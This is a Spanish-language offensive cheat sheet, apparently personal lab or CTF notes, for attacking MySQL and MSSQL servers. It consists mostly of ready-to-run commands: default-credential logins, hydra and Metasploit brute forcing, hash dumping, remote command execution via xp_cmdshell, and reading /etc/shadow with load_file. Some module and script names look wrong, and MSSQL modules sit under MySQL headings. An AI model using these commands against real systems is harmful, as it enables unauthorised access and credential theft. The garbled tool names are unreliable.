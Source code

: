 # MySQL (3306)

Propietario: Adrian Gisbert Cabello

- Para entrar mediante el protocolo MySQL: `mysql -u USUARIO -p -h 192.168.X.X` ******→ usuarios ***por defecto suele ser root***, no suelen cambiar credenciales por defecto: `mysql -u root -h 192.168.X.X`

- Con la herramienta metasploit podemos usar los siguientes scripts:
    - Fuerza bruta: `use auxiliary/scanner/mssql/mssql_login`
    - Enumeración en mysql: `use auxiliary/admin/mssql/mssql_enum`
    - Dumpear hashes: `use auxiliary/scanner/mssql/mssql_hashdump`
    - Para saber que privilegios tienen los usuarios: `use auxiliary/admin/mssql/mssql_enum_sql_logins`
    - Para enumerar dominios: `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
    - Ejecución remota de comandos (RCE) con credenciales: `use auxiliary/admin/mssql/mssql_enum_exec`
    - `set cmd whoami`
- Para hacer fuerza bruta con hydra: `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://192.168.X.X`

- Cuando estamos dentro del MySQL estos son algunos de los comandos más importantes:
    - Para ver las bases de datos: `show databases`
    - Para seleccionar una base de datos: ***use <Nombre de la base de datos>*** = `use wordpress` → `show databases` → `select * from wp_users`

- Default Credentials = `root::en blanco` | `root::root`

- Comandos para usar con NMAP:
    - Para saber si podemos entrar sin contraseña: `nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-password`
    - Para ver información: `nmap 192.168.X.X -sV -p 3306 --script=mysql-empty-info`
    - Para: `nmap 192.168.X.X -sV -p 3306 --script=mysql-users --script-args=¨mysqluser='root',mysqlpass=''¨`
    - Para ver bases de datos: `nmap 192.168.X.X -sV -p 3306 --script=mysql-databases --script-args=¨mysqluser='root',mysqlpass=''¨`
    - Para ver directorios: `nmap 192.168.X.X -sV -p 3306 --script=mysql-variables --script-args=¨mysqluser='root',mysqlpass=''¨`
    - Para ver un archivo: `nmap 192.168.X.X -sV -p 3306 --script=mysql-audit --script-args=¨mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'¨`
    - Para dumpear hashes: `nmap 192.168.X.X -sV -p 3306 --script=mysql-dump-hashes --script-args=¨username='root',password=''¨`
    - Para windows:
    - Info del sistema: `nmap 192.168.X.X -p 1433 --script ms-sql-info`
    - Info: `nmap 192.168.X.X -p 1433 --script ms-sql-ntlm-info --script-args msssql.instance-port=1433`
    - Fuerza bruta: `nmap 192.168.X.X -p 1433 --script ms-sql-brute --script-args userdb=/users.txt,passdb=/pass.txt`
    - Saber si podemos entrar sin contraseña: `nmap 192.168.X.X -p 1433 --script ms-sql-empty-password`
    - Dumpear toda la base de datos con credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-empty-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query=¨SELECT * FROM master..syslogins¨ -oN output.txt`
    - Dumpear hashes con unas credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`
    - Ejecución remota de comandos (RCE) con credenciales: `nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=¨COMANDO¨`
    - Leer un archivo: `nmap 192.168.X.X -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd=¨type c:**\**flag.txt¨`

- Comandos para usar dentro de MySQL:
    - `select load_file(¨/etc/shadow¨);`
    - `show databases`
    - `show tables`
    - `;`

- Escaners en Metasploit para MySQL:
    - Para ver directorios con permisos de escritura: `use auxiliary/scanner/mysql/mysql_writable_dirs`
        - `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
        - `set verbose false`
        - `set password ''`
        - `run`
    - Para dumpear hashes: `use auxiliary/scanner/mysql/mysql_hashdump`
        - `set username root`
        - `set password ''`
        - `exploit`